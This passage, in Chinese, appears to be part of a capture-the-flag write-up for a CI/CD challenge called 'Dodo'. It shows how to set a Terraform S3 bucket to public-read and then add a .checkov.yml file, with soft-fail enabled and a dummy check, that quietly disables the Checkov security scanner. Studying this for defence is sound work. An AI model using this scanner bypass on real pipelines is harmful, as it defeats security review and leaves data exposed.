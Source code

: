 #### [Dodo](#toc_dodo)

> 每个人都赢了，每个人都必须有奖品！*Dodo*管道正在扫描您。您的任务是让 S3 存储桶公开可读而不会被发现。完成后，在作业的控制台输出中收集您的奖品。  
> 两个提示：  
> 1\. 阅读 Checkov，它是一种防止您弄得一团糟的扫描仪。  
> 2\. 阅读恶意代码分析 Reference\[3\]。  
> 在管道中引入了 SAST 静态扫描工具 checkov：[https://github.com/bridgecrewio/checkov](https://github.com/bridgecrewio/checkov)  
> 在提示 2 中的文章，介绍了 checkov 工具会读取仓库中的.checkov.yml 配置文件作为 checkov 运行的配置，因此可以在仓库中劫持 checkov 的配置。  
> 首先设置 main.tf 的 ACL 为 public-read

```bash
resource "aws_s3_bucket" "dodo" {
  bucket        = var.bucket_name
  acl           = "public-read"     //更改 ACL 设置
  versioning {
    enabled = true
  }
  replication_configuration {
    role = aws_iam_role.replication.arn
    rules {
      id     = "foobar"
      status = "Enabled"
      destination {
        bucket        = aws_s3_bucket.backup.arn
        storage_class = "STANDARD"
      }
    }
  }
}
```

之后创建.checkov.yml，并输入以下内容

```bash
soft-fail: true
check:
  - THIS_NOT_THE_CHECK_YOUR_ARE_LOOKING_FOR
```

[![1656907693465.png](assets/1702372834-7ba470a1c481f11f77dd4335c2335b37.png)](https://storage.tttang.com/media/attachment/2022/07/06/3d17c714-c346-41b9-833e-508bba97e400.png)  
我这里因为环境问题，一直卡在下载安装 hashicorp/aws 组件上，但是可以看到 checkov 检查是绕过了的。
